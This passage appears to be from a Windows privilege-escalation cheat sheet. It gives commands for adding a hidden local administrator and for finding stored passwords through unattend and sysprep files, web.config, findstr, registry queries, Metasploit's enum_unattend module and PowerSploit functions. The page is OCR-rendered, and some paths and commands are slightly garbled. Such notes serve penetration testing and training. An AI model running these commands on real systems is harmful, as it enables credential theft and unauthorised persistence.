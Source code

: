 Method\[2] From the command promopt

```
net user /add [username] [password]
net localgroup administrators [username] /add
```

#### Finding Files that Store Passwords in Plain Text

Many third-party software packages store credentials that you may be able to retrieve. Examples include VNC tools like UltraVNC and RealVNC, both of which store passwords on the local system. PuTTY, the popular SSH client, stores proxy credentials in cleartext in the Windows Registry under \`HKCU/Software/SimonTatham/Putty/Sessions **Common File locations**

```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system``32``\sysprep.inf
C:\Windows\system``32``\sysprep\sysprep.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

**With Find command**

```
<C:\findstr /si password *.xml *.ini *.txt *.config *.bat>
```

**Viewing file content with powershell**

```
<PS C:\Get-Content "c:\windows\panther\unattend.xml" | Select-String "Password" -Context 2>
```

**With Metasploit**

```
post/windows/gather/enum_unattend
```

**With Registry**

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

**With Powersploit**

```
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```
